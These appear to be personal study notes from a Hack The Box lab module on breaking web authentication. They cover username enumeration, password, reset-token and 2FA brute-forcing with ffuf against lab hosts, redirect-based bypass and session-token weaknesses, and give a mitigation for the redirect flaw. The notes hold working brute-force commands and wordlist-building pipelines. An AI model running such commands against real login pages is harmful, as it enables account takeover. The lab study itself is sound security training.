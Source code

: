 ![[Pasted image 20240611220719.png]]

### Common Authentication Methods

- Knowledge-based authentication
- Ownership-based authentication
- Inherence-based authentication


| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

# Bruteforce Attacks

## Enumerating Users

- responds differently to registered/valid and invalid inputs for authentication endpoints

![[Pasted image 20240611221602.png]]

![[Pasted image 20240611221611.png]]


- Enumerate usernames using ffuf

```shell
ffuf -w /opt/seclists/Usernames/xato-net-10-million-usernames.txt -u http:// 94.237.49.32:36757/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=admin" -fr "Unknown username"
```


### User Enumeration via Side-Channel Attacks

- the response timing, i.e., the time it takes for the web application's response to reach us
	- eg, if it checks for the userdb only for valid db rhen response time varies

### Brute-Forcing Passwords

- after finding username fuzz the password with the valid username
- filter the wordlist with password policies

```shell
grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

```


```shell
ffuf -w ./custom_wordlist.txt -u http://94.237.49.178:49729/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```



### Brute-Forcing Password Reset Tokens


![[Pasted image 20240611233705.png]]


-  need to create an account on the target web application, request a password reset token, and then analyze it.


**Example:**

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```



- here a get request with parameter as toke is got so we can fuzz the token by generation numbers
- generate tokens


```shell
seq -w 0 9999 > tokens.txt
```




## Brute-Forcing 2FA Codes


![[Pasted image 20240612002024.png]]

![[Pasted image 20240612002032.png]]


```shell
pradyun2005@htb[/htb]$ seq -w 0 9999 > tokens.txt
```


```shell
pradyun2005@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

- after successfull auth every hit will be successfull



## Authentication Bypass via Direct Access


#### Direct Access

- find where after succesful login redirects to /admin.php
- access /admin.php directly without login page
- Does it redirect to index.php => modify response of http request 
- `302 FOUND to 200 OK` In response that redirecting

Why this happens ??

```php
if(!$_SESSION['active']) {
	header("Location: index.php");
}
```

include exit after header to mitigate
```php
	exit;
```


# Authentication Bypass via Parameter Modification

- check weather parameter is involved in authentication , how??
- remove/change the parameter value and check the functionality ,redirects to /index.php => parameter invloved in authentication
- brute the value to get higher priv
- idor

# Attacking Session Tokens

- collect different session tokes and analyze

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

- only characters are changed easy to brute

- incremented session id

- base64,hex,url encoded session



gcnvvmcv4eqgm5fjc4ibt2crtq

